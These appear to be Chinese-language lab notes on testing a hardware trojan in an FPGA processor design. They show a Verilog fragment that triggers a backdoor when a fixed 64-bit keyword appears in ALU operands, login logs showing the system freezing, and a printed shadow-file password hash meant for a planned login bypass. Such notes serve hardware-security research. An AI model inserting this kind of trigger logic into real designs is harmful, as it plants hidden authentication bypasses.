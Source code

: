 `````shell
t1-fpga-00 login: 00000000
Password:                      <----  root


Login incorrect

`````

00000000并没有完全取代字符root。也许是和Sun OS里一样，有按byte比较的地方。

不过debian9.0里这样做就能替代root。



-------------------------------

## 测试8

现在试下ubuntu7.10这个系统在比较hash的时候是不是一次8个字节。

从逆向libc里strcmp里看到是这样，除非buffer不是8字节对齐。不对齐的情况就按每次比较一字节了。

`````verilog
   assign backdoor_on_keyword = (64'h2431243763373178 == byp_alu_rs1_data_e[63:0]) && (64'h2431243763373178 == byp_alu_rs2_data_e[63:0]);

... 

   assign trigger_backdoor = backdoor_r;
`````

如果登陆guest，应该没事。要是登陆root，root的hash会触发backdoor_on_keyword，系统会freeze。

** uty_ubuntu_patchbitgen1c4t_test46.ace **

### 结果：

`````shell
Ubuntu 7.10 t1-fpga-00 ttyS0

t1-fpga-00 login: root
Password:                   <---- 随便敲的

`````

确实是freeze住了，之前还试了用guest登陆，那个就没事。

说明hash是按64位做比较的，是不是全部，还的测。


-------------------------------------------

## 测试9

硬编码一个hash，比如guest的hash，测试如果登陆的root也能用guest的密码登陆，说明64位对比，并且只有这一次。

`guest:$1$3yl/GC0y$lqH9UHNOnOtbO4//.bpGS.:14168:0:99999:7:::`
